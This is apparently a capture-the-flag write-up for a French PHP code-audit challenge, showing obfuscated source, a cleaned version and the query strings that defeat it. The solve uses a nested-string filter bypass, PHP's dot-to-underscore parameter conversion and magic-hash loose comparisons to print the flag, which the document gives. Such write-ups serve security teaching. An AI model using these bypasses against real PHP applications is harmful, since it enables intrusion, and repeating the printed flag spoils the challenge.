# challengefox

## FR

L'entreprise FOX souhaite recruter des développeurs web PHP, pour cela, elle a  créé un challenge audit de code.
Analysez le code et trouvez le moyen d'afficher le flag pour remporter l'entretien !

## EN

The FOX society wish to hire PHP developers. So, they create a test with some code to audit.
Analyze the code and find a way to print the flag to get the job!

https://fox.flag4all.sh

Auteur : Redfox (ESDAcademy - Aston Paris - ESD30)


https://fox.flag4all.sh

## Solve
```php
**Challenge Fox**

Analyser le code ci dessous et trouver le moyen d afficher le flag.

  

---

  
  
<?php  
  
goto rjJoj;  
l5p8t:  
$variable = str_replace("\143\x68\141\154\154\145\x6e\147\x65\146\x6f\x78", '', $variable);  
goto MGxdQ;  
lIReG:  
function echec()  
{  
goto jCY0w;  
Dm3Uc:  
source();  
goto pj4hI;  
jCY0w:  
echo "\x45\143\x68\x65\143\x2e\x20\74\x62\x72\40\57\76";  
goto Dm3Uc;  
pj4hI:  
exit;  
goto gPDe0;  
gPDe0:  
}  
goto lbiZM;  
bOncl:  
if ($variable === "\143\x68\141\x6c\154\145\156\147\145\146\157\x78") {  
echo "\x2d\x20\123\x69\40\143\145\x20\x74\x65\170\164\x65\x20\x61\x70\x70\x61\x72\x61\151\164\54\x20\x74\165\40\166\x61\154\x69\x64\x65\40\x6c\x61\x20\160\x72\x65\x6d\151\x65\162\x65\40\x65\x74\141\x70\x65\41\40\74\x62\x72\76";  
if (isset($_GET["\143\150\x61\x6c\154\x65\x6e\147\x65\137\x66\157\x78"])) {  
echo "\x2d\x20\104\145\165\x78\151\x65\155\x65\40\145\x74\141\160\145\x20\x76\141\154\x69\x64\145\41\x20\x3c\x62\162\x3e";  
if (hash("\155\x64\x32", $_GET["\x76\141\x72\151\141\x62\x6c\x65\x32"]) == "\60") {  
echo "\55\x20\124\x72\x6f\151\163\x69\x65\155\145\x20\145\164\141\160\x65\40\166\x61\x6c\151\x64\145\x21\x20\74\142\x72\x3e";  
if (hash("\x73\x68\141\x31", $_GET["\166\x61\x72\x69\141\x62\154\145\x33"]) == $_GET["\x76\x61\x72\151\141\142\154\145\63"]) {  
echo "\55\40\x4f\153\x61\171\x2c\40\x76\x6f\151\x63\151\40\154\145\x20\146\154\x61\147\40\x3a\x20" . $secretflag . "\74\142\x72\x3e";  
}  
}  
}  
}  
goto nKESF;  
HVY3V:  
echo "\74\x70\x3e\x41\x6e\x61\x6c\171\x73\x65\x72\x20\154\x65\x20\143\157\x64\145\40\143\151\40\x64\x65\x73\x73\x6f\x75\163\x20\145\x74\x20\x74\x72\157\165\166\145\x72\x20\x6c\145\40\x6d\x6f\x79\x65\x6e\40\x64\40\x61\x66\x66\x69\x63\x68\x65\x72\x20\x6c\x65\x20\x66\154\141\x67\x2e\74\160\76";  
goto g9hQi;  
lbiZM:  
$variable = $_GET["\166\141\x72\x69\141\142\154\145"];  
goto l5p8t;  
Oz2JG:  
echo "\x3c\164\151\x74\154\145\76\x43\x68\x61\154\154\145\156\147\x65\40\x46\157\x78\x3c\x2f\164\151\x74\154\x65\76";  
goto E0h5E;  
MGxdQ:  
$query = urldecode($_SERVER["\x51\x55\x45\122\x59\x5f\123\x54\122\x49\x4e\x47"]);  
goto Z_G58;  
MYfqC:  
function source()  
{  
goto nUBkJ;  
pqZ02:  
highlight_string(file_get_contents(__FILE__));  
goto P9KZ3;  
nUBkJ:  
echo "\x3c\x62\162\76\x3c\143\x6f\144\145\76";  
goto pqZ02;  
P9KZ3:  
echo "\74\x2f\x63\157\144\145\76";  
goto NTzIV;  
NTzIV:  
}  
goto lIReG;  
E0h5E:  
echo "\74\x62\x3e\x43\150\x61\154\154\x65\x6e\x67\x65\40\106\157\x78\74\x2f\x62\76";  
goto HVY3V;  
Z_G58:  
if (preg_match("\x2f\x20\174\137\x2f", $query)) {  
echec();  
}  
goto bOncl;  
g9hQi:  
echo "\74\142\x72\76\x3c\110\x52\76\x3c\142\162\76";  
goto MYfqC;  
rjJoj:  
include "\146\x6c\x61\147\x2e\160\150\x70";  
goto Oz2JG;  
nKESF:  
source();
```

after some cleanup with ChatGPT:
```php
<?php
include "flag.php";
echo "<title>Challenge Fox</title>";
echo "<b>Challenge Fox</b>";
echo "<p>Annalyser le code ci dessous et trouver les etrouver les mots afficher les mots en</p>";
echo "<br><hr><br>";
function source()
{
    echo "<br><code>";
    highlight_string(file_get_contents(__FILE__));
    echo "</code><br>";
}
function echec()
{
    echo "Echec. </br>";
    source();
    exit;
}
$variable = $_GET["variable"];
$variable = str_replace("challengefox", '', $variable);
$query = urldecode($_SERVER["QUERY_STRING"]);
if (preg_match("/ |_/", $query)) {
    echec();
}
if ($variable === "challengefox") {
    echo "- Si ce texte apparaît, tu valide la première étape! <br>";
    if (isset($_GET["challenge_fox"])) {
        echo "- Deuxième étape valide! <br>";
        if (hash("md2", $_GET["variable2"]) == "0") {
            echo "- Troisieme etape valide! <br>";
            if (hash("sha1", $_GET["variable3"]) == $_GET["variable3"]) {
                echo "- Okay, voici le flag : " . $secretflag . "<br>";
            }
        }
    }
}
source();

```

First step:
`https://fox.flag4all.sh/?variable=challengechallengefoxfox`

Second step:
https://stackoverflow.com/questions/283751/php-replaces-spaces-with-underscores
The full list of field-name characters that PHP converts to _ (underscore) is the following (not just dot):
```
chr(32) ( ) (space)
chr(46) (.) (dot)
chr(91) ([) (open square bracket)
chr(128) - chr(159) (various)
```

`?variable=challengechallengefoxfox&challenge.fox=&`

Third step:
https://github.com/spaze/hashes/blob/master/md2.md
`variable=challengechallengefoxfox&challenge.fox=&variable2=Oq9wqi64`

Final step:
https://github.com/spaze/hashes/blob/master/sha1.md
`variable=challengechallengefoxfox&challenge.fox=&variable2=Oq9wqi64&variable3=0e00000000000000000000081614617300000000`

`ESD{ChallengeFox486217935}`